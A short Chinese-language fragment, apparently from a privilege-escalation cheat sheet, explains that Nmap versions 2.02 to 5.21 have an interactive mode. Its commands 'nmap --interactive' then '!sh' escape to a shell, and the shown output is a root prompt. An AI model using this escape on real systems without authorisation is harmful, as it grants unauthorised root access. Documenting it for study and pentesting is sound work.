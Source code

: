 较旧版本的 Nmap（2.02至5.21）带有交互模式，从而允许用户执行shell命令，使用 nmap -V 查看版本是否满足条件。

```
# 进入交互模式
nmap --interactive
# getshell
nmap> !sh
sh-3.2# whoami
root

```
